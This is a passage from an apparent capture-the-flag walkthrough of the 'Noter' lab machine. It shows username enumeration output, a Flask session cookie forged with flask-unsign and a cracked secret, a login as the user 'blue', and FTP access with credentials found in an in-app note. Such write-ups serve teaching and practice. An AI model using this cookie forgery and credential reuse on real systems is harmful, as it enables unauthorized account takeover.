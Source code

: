     Total time: 195.6524
    Processed Requests: 10177
    Filtered Requests: 10176
    Requests/sec.: 52.01569
    

It returned one valid username, blue (just like I found by crafting cookies).
I’ll use `flask-unsign` to make a cookie:

    
    
    oxdf@hacky$ flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret secret123
    eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YkRUJg.-0B60ZY6aQyHOSoCxBnWGOx-Rbw
    

#### Site Access / Enumeration

Regardless of which way I got a cookie for blue, replacing the current cookie
in Firefox dev tools and then reloading `/dashboard` shows I’m now logged in
as blue:

![image-20220330124752022](https://0xdfimages.gitlab.io/img/image-20220330124752022.png)

There’s also “Import Notes” and “Export Notes” buttons. I’ll come back to
these in a bit.

### FTP Access as blue

Logged in as blue, clicking to edit the only note on the dashboard shows a to
do list:

![image-20220330124908270](https://0xdfimages.gitlab.io/img/image-20220330124908270.png)

It’s not clear what “password note” blue is talking about, or what password.
Looking at the “Notes” link a the top, there are two notes:

![image-20220330124939388](https://0xdfimages.gitlab.io/img/image-20220330124939388.png)

I’ve already looked at “Before the weekend”. The other one is from the Noter
team:

![image-20220330125011092](https://0xdfimages.gitlab.io/img/image-20220330125011092.png)

The note is from ftp_admin, and it has creds for FTP, “blue@Noter!”.

The creds work connect to FTP:

    
    
    oxdf@hacky$ ftp 10.10.11.160
    Connected to 10.10.11.160.
    220 (vsFTPd 3.0.3)
    Name (10.10.11.160:oxdf): blue
    331 Please specify the password.
    Password:
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> 
    